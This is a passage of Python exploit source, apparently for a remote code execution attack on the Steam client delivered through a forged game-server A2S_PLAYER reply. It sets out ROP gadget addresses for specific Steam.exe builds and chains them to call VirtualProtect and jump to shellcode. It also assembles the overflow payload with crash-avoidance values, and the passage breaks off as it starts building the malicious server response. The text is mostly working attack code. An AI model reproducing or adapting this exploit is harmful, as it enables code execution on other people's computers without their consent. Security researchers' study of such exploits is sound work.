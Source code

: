 ```python
    pop_ebp = convert_addr(0x40247c)
    pop_esi = convert_addr(0x404de6)
    pop_edi = convert_addr(0x423839)
    jmp_esp = convert_addr(0x4413bd)
    pushad = convert_addr(0x425e00)
    ret_nop = convert_addr(0x401212)
    mov_edx_eax = convert_addr(0x5599a6)
    sub_eax_41e82c6a = convert_addr(0x51584f)
    mov_ebx_ecx_mov_ecx_eax_mov_eax_esi_pop_esi_ret = convert_addr(0x4e24eb)
    mov_esi_ptr_esi_mov_eax_esi_pop_esi = convert_addr(0x4506ea)
    xchg_eax_esi = convert_addr(0x543b86)

    writable_addr = convert_addr(0x69a01c)
    virtual_protect_idata = convert_addr(0x5f9280)
    new_protect = to_unicode(0x41e82c6a+0x40)
    msize = to_unicode(0x41e82c6a+0x501)

    '''
    # ROP gadgets for Steam.exe Beta Dec 14 2018
    pop_eax = convert_addr(0x425993)
    pop_ecx = convert_addr(0x41bd9f)
    pop_edx = convert_addr(0x413a53)
    pop_ebx = convert_addr(0x40511c)
    pop_ebp = convert_addr(0x40247c)
    pop_esi = convert_addr(0x404de6)
    pop_edi = convert_addr(0x423839)
    jmp_esp = convert_addr(0x4413bd)
    pushad = convert_addr(0x425e00)
    ret_nop = convert_addr(0x401212)
    mov_edx_eax = convert_addr(0x559d46)
    sub_eax_31e82c6a = convert_addr(0x515bbf)
    mov_ebx_ecx_mov_ecx_eax_mov_eax_esi_pop_esi_ret = convert_addr(0x4e284b)
    mov_esi_ptr_esi_mov_eax_esi_pop_esi = convert_addr(0x4506ea)
    xchg_eax_esi = convert_addr(0x515b5e)

    writable_addr = convert_addr(0x69a01c)
    virtual_protect_idata = convert_addr(0x5fa280)
    new_protect = to_unicode(0x31e82c6a+0x40)
    msize = to_unicode(0x31e82c6a+0x501)
    '''

    rop = pop_eax + msize + sub_eax_41e82c6a + mov_ebx_ecx_mov_ecx_eax_mov_eax_esi_pop_esi_ret \
              + u"\ub33f\ubeef" + mov_ebx_ecx_mov_ecx_eax_mov_eax_esi_pop_esi_ret + ret_nop*0x10 \
              + pop_ecx + writable_addr \
              + pop_eax + new_protect + sub_eax_41e82c6a + mov_edx_eax \
              + pop_ebp + jmp_esp + pop_esi + virtual_protect_idata \
              + mov_esi_ptr_esi_mov_eax_esi_pop_esi + u"\ub33f\ubeef" + xchg_eax_esi + pop_edi \
              + ret_nop + pop_eax + u"\u9090\u9090" + pushad

    #special conditions to avoid crashes
    special_condition_1 = to_unicode(STEAM_BASE + 0x10)
    special_condition_2 = to_unicode(STEAM_BASE + 0x11)
    payload = "A"*1024 + u"\ub33f\ubeef"*12 + special_condition_1 + special_condition_2*31 + rop + shellcode
    return payload.encode("utf-8") + "\x00"


def createPLAYERReply():
    # A2S_player response
    # This query retrieves information about the players currently on the server.
    pre = "\xFF\xFF\xFF\xFF"                        # Pre (4 bytes)
    header = "\x44"                                 # Header (1 byte)
    players = "\x01"                                # Amount of players (1 byte)
```